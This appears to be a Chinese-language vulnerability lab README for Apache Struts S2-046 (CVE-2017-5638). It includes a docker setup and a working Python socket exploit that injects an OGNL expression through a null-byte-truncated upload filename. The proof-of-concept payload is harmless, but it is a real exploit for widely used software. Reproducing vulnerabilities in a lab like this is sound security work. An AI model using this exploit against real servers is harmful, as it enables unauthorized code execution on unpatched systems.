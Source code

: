 # S2-046 远程代码执行漏洞（CVE-2017-5638）

影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

漏洞详情:

 - https://cwiki.apache.org/confluence/display/WW/S2-046
 - https://xz.aliyun.com/t/221

## 漏洞环境

执行如下命令启动struts2 2.3.30：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到上传页面。

## 漏洞复现

与s2-045类似，但是输入点在文件上传的filename值位置，并需要使用`\x00`截断。

由于需要发送畸形数据包，我们简单使用原生socket编写payload：

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('your-ip', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())

```

`233*233`已成功执行：

![](1.png)
